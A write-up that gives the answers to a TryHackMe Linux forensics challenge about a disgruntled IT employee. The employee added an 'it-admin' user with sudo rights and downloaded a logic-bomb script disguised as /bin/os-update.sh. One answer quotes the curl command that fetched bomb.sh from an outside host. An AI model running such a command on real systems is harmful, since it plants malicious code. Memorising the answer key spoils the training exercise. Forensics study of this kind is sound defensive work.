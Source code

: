 # Digital Forensics and Incident Response
## Challenge - [Disgruntled](https://tryhackme.com/r/room/disgruntled)

> Use your Linux forensics knowledge to investigate an incident.<br><br> Description: An employee from the IT department of one of our clients (CyberT) got arrested by the police. The guy was running a successful phishing operation as a side gig. CyberT wants us to check if this person has done anything malicious to any of their assets. 

### Which user was created after the package from the previous task was installed?

![Adduser](https://github.com/user-attachments/assets/1b2d30b2-5e44-4bae-8f6b-bb5562c812e9)

__Answer: it-admin__

### A user was then later given sudo priveleges. When was the sudoers file updated? 

![Sudo Privilege Date](https://github.com/user-attachments/assets/1d4ec918-d61a-4868-844f-bd6f4f5d1971)

__Answer: Dec 28 06:27:34__


### A script file was opened using the "vi" text editor. What is the name of this file?

![Fine Name](https://github.com/user-attachments/assets/f74a5bab-08df-4cdd-b60c-d58b5dc8657b)

__Answer: bomb.sh__


### What is the command used that created the file bomb.sh?

![Command for bomb sh](https://github.com/user-attachments/assets/367520fb-62ef-4b71-8cf6-1b618748ef7a)

__Answer: curl 10.10.158.38:8080/bomb.sh --output bomb.sh__


### The file was renamed and moved to a different directory. What is the full path of this file now?

![Renamed as](https://github.com/user-attachments/assets/efc4968a-ac40-494d-8fa6-16a2300ac58e)

__Answer: /bin/os-update.sh__


### What is the name of the file that will get created when the file from the first question executes?

![File created when executes](https://github.com/user-attachments/assets/c5655f90-43e9-4d11-ab87-d5334ded2a15)

__Answer: goodby.txt__


### At what time will the malicious file trigger? (Format: HH:MM AM/PM) 

![Time it will excute](https://github.com/user-attachments/assets/b42880f7-fd83-4545-ad45-02f5b85b2ef5)

__Answer: 08:00 AM__

